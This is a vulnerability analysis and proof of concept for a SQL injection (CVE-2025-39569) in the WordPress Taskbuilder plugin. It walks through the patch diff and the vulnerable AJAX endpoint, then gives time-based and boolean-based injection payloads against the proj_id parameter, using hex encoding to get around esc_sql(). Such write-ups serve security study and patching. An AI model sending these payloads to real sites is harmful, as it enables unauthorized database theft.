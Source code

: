 # CVE-2025-39569 Analysis & POC


---

The vulnerability occurs in the **Taskbuilder** WordPress plugin before version **4.0.2**. This could allow an attacker to directly interact with your database, including, but not limited to, stealing information.
- **CVE ID**: [CVE-2025-39569](https://www.cve.org/CVERecord?id=CVE-2025-39569)
- **Product**: [WordPress Taskbuilder Plugin](https://wordpress.org/plugins/taskbuilder/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: < 4.0.2
- **CVSS Severity**: High (8.5) 
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Taskbuilder Plugin**: v4.0.1 (vulnerable) and v4.0.2 (patched)
- **Diff Tool**: **meld** or any tool that can compare files to see differences between two versions

---

## Analysis
The application **sanitizes input data** before using it in SQL queries. However, during query construction, this value is inserted directly without being wrapped in single quotes `'...'`. This allows an attacker to inject valid SQL syntax (such as `OR`, `AND`, etc.) into the query, resulting in a SQL Injection vulnerability.

### Patch Diff
Use any diff tool to compare differences between the vulnerable version and the patched version.  
The clear difference is in the file **includes/admin/projects/get_users.php**.

In version **v4.0.1**, the variable `$proj_id` is escaped but inserted directly into the query without quotes:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = $proj_id" );
```

In version **v4.0.2**, the query is adjusted to wrap `$proj_id` in quotes after escaping:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = '$proj_id'" );
```

This patch ensures that the `$proj_id` value after escaping is treated as a **literal string**, preventing it from escaping the quotes to inject SQL syntax, effectively mitigating the SQL Injection.

![patch diff](patch_diff.png "Patch diff")

### How It Works

**File Architecture**:

General structure of the current file:

```php
$proj_id  = esc_sql($proj_id);
$project  = $wpdb->get_row("SELECT * FROM {$wpdb->prefix}wppm_project WHERE id = $proj_id");

// Start buffer to generate the main modal content
ob_start();
// ... render HTML user list
$body = ob_get_clean();

// Start buffer to generate modal footer
ob_start();
// ... render HTML buttons (Close, Save)
$footer = ob_get_clean();

// Return JSON data for frontend modal rendering
echo json_encode([
    'body'   => $body,
    'footer' => $footer,
]);
```

* `$proj_id` / `$project`: Fetch project data from the database.
* `ob_start()` / `ob_get_clean()`: Buffer HTML output instead of printing directly, storing it in a variable.
* `$body` / `$footer`: Contain dynamic HTML for the modal.
* `json_encode()`: Returns JSON to the client, often used in Ajax to render modals without refreshing the page.

The file is located in `includes`, suggesting it’s called from another feature. To find where it’s used, search for `get_users.php` in the plugin directory.

![search_get_users](search_get_users.png "Search get users")

👉 It is included in the function `wppm_get_users()` of the class `WPPM_Admin` in **class-wppm-admin.php**.
`wppm_get_users()` is a **callback** for a **WordPress action hook**.

**WPPM_Admin constructor**:

```php
final class WPPM_Admin {
    public function __construct() {

        // other actions

        add_action( 'wp_ajax_wppm_get_users', array($this,'wppm_get_users'));

        // other actions
    }
}
```

* `add_action()` is a **WordPress Plugin API** method to attach a **callback** to an **action hook**.
* `wp_ajax_wppm_get_users` is an Ajax hook name:

  * `wp_ajax_{action}` → handles Ajax for logged-in users.
  * `wp_ajax_nopriv_{action}` → handles Ajax for non-logged-in users.
* Here, `action = wppm_get_users`. If you send `action=wppm_get_users` via Ajax to `admin-ajax.php`, WordPress will execute the corresponding callback, here `wppm_get_users()`.

👉 Knowing `action = wppm_get_users`, you can find which Ajax requests use it by searching `wppm_get_users` in **.js** files of the plugin.

![ajax search](ajax_search.png "Ajax search")

The `wppm_get_users` action is the **data part** in the POST request handled by `wppm_get_users()`.

The function is referenced in HTML attributes of the **project feature**:

* Create a new project
* Access that project
* Inspect code to locate `wppm_get_users` and see which actions call it

![ajax inspect](ajax_inspect.png "Ajax inspect")

👉 Clicking the **icon next to Users** triggers Ajax, sending a request to the server to fetch project users and render them in HTML.

![modal display](model_display.png "Model display")

---

## Exploit

### Detect SQLi

Capture requests using BurpSuite and send a **time-based SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](sqli_success.png "Sqli success")

Response delay indicates a successful SQL Injection.

### Get First Letter of Database Name

To **dump all data**, the first step is to extract at least one character of the database name. Once retrieved, the rest can be dumped.

Send a **boolean-based SQLi payload** with the correct `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```

> Database name is **wordpress**, so the first character is `w` (HEX `0x77`).

`SUBSTRING(STRING,1,1)` retrieves the first character.

Here, `$proj_id = 4`. Since `SUBSTRING('wordpress',1,1)=0x77` is true, the `IF(condition, value_if_true, value_if_false)` returns `4`, which exists in the database, so the response contains the project users.

![response none](res.png "Res 1")

Using **HEX technique** bypasses the `esc_sql()` function (see [Patch Diff](#patch-diff)) when quotes cannot be used.

Send a **boolean-based SQLi payload** with a wrong `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,999,4))
```

With a non-existent `proj_id`, the response contains `None`.

![response none](res_none.png "Res 2")

👉 We successfully retrieved the first character of the database name using **boolean-based SQLi**:

* Correct `proj_id`: response without `None`
* Wrong `proj_id`: response contains `None`

> Time-based SQLi could also be used, but dumping large data sets would be slow.

---

## Conclusion

The **CVE-2025-39569** vulnerability in **WordPress Taskbuilder** arises from the missing single quotes `'...'` around user input in SQL queries, allowing user data to be interpreted as valid SQL syntax.

The patch in **v4.0.2** fixed this by wrapping `$proj_id` in quotes, ensuring it is always treated as a literal string in SQL.

**Key Takeaways**:

* Prefer **prepared statements** (`$wpdb->prepare()` in WordPress) over manually inserting variables into queries.
* For WordPress plugins, thoroughly test **Ajax endpoints**, as they are the most common sources of SQLi and XSS.
* Administrators should regularly update plugins/themes to receive security patches promptly.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Taskbuilder <= 4.0.1 Vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/taskbuilder/vulnerability/wordpress-taskbuilder-4-0-1-sql-injection-vulnerability?_s_id=cve)

---

